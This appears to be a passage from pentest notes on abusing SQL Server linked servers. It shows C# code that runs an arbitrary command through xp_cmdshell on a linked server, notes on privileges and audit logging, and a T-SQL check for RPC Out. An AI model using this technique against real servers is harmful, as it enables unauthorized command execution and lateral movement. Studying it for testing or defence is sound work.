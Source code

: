 ```csharp

            // Run command on linked server
            string query = $"EXEC [{linkedServer}].master.sys.xp_cmdshell '{command}';";
            using (SqlCommand cmdShellCommand = new SqlCommand(query, connection))
            {
                using (SqlDataReader reader = cmdShellCommand.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        Console.WriteLine(reader[0].ToString());
                    }
                }
            }
        }
    }
}
```

### **Important Considerations**

- **Permissions**: The effectiveness of these techniques depends on the permissions of the linked server configuration. If the linked server is configured to use a high-privilege account, you can potentially execute commands with those privileges.
- **Audit Logging**: These activities are likely to be logged in SQL Server’s audit logs. Ensure you have permission to perform these actions or be aware that they might be detected.
- **Security Implications**: Exploiting linked servers can have serious security implications. Ensure that you are authorized to perform these actions.


**RPC Out** refers to the ability of a SQL Server to make Remote Procedure Calls (RPCs) to a linked server. When `RPC Out` is enabled, SQL Server can execute stored procedures and queries on a remote server via a linked server connection.

### **Understanding RPC Out**

- **RPC** (Remote Procedure Call) allows SQL Server to execute commands on a remote server as if they were being executed locally.
- **RPC Out** specifically refers to the permission that allows a SQL Server to send such remote procedure calls to a linked server.

### **Determining if RPC Out is Enabled**

You can determine if `RPC Out` is enabled for a linked server by querying the `sys.servers` or `sys.linked_logins` system views.

#### **T-SQL Query to Check RPC Out Setting:**

```sql
SELECT name AS LinkedServerName, rpc_out_enabled
FROM sys.servers
WHERE is_linked = 1;
```
